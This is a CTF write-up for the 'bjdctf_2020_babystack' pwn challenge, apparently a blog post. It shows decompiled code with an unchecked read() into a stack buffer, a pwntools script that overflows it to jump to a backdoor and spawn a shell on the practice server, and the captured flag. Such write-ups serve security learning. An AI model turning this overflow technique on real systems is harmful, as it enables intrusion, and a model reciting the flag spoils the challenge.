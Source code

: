 ```yaml
---
title: bjdctf_2020_babystack
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

下载附件，用 IDA 64 打开，看到如下伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

发现危险函数 `read(0, buf, (unsigned int)nbytes)`，老脚本稍微改改就能用

## 编写 Exp

```python
from pwn import *

r = remote("node4.buuoj.cn", 29597)
backdoor_addr = 0x4006E6
r.sendline(b"9"*abs(0xC-0X4))
payload = b"A" * (0x10-0x0) + b"B" * 0x8 + pack(backdoor_addr, 64)
r.sendline(payload)
r.interactive()
```

最后得出 Flag 为 `flag{871bf3da-37db-4026-a43b-4dff76f2a8fd}`